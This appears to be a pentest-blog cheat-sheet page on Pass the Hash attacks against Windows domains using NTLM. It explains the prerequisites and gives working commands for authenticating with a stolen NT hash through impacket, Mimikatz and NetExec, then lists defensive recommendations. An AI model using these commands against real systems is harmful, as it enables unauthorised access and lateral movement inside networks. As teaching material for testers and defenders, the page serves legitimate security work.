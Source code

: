 # Pass the Hash
---

## Vulnerability

If you manage to get the NTHash of a domain user - *by [extracting credentials](/windows/credentials/) for instance* - and NTLM (New Technology Lan Manager) authentication is enabled, you could authenticate through the domain with this hash. NTLM succeed to LM (Lan Manager) which is by default disabled from Windows Vista and Windows Server 2008.

{: .important }
> Even if LM is disabled by default nowadays, you can still find LMHash on Windows password storage since it uses `LMHash:NTHash` format.

Having the LMHash or the NTHash - *or both in most cases* - you can also try to [crack](/cracking/) them.

## Prerequisites

* Having the NTHash of a domain user.
* NTLM authentication is enabled on the domain.

## Exploit

Authentication with Pass the Hash method can be performed with many - *all?* - tools you will see on this blog and elsewhere. Depeding on the tool:
* Use `-H`, `-hashes`, `-pw-nt-hash`, `/ntlm`, etc. option.
* Put `:` before the NTHash like `:31d6cfe0d16ae931b73c59d7e0c089c0`.

Here are some examples.

```bash
# With impacket.
impacket-GetUserSPNs $Domain/$Username -hashes ":$NTHash" -dc-ip $dc_ip -request -outputfile kerberoast.out

# With Mimikatz.
sekurlsa::pth /user:$Username /domain:$Domain /ntlm:$NTHash

# With NetExec.
nxc smb $DomainControllerIP -u $Username -H $NTHash
```

Well, [RTFM](https://en.wikipedia.org/wiki/RTFM).

## Useful links

* Differences between NTLM, Net-NTLMv1 and Net-NTLMv2 in [Péter Gombos' article](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4).

## Recommendations

- [ ] The best - *but very hard to apply* - recommendation is to completely disable NTLM within the domain to enforce Kerberos authentication.
- [ ] Otherwise, check recommendations to [avoid credentials extraction](/windows/credentials/#recommendations).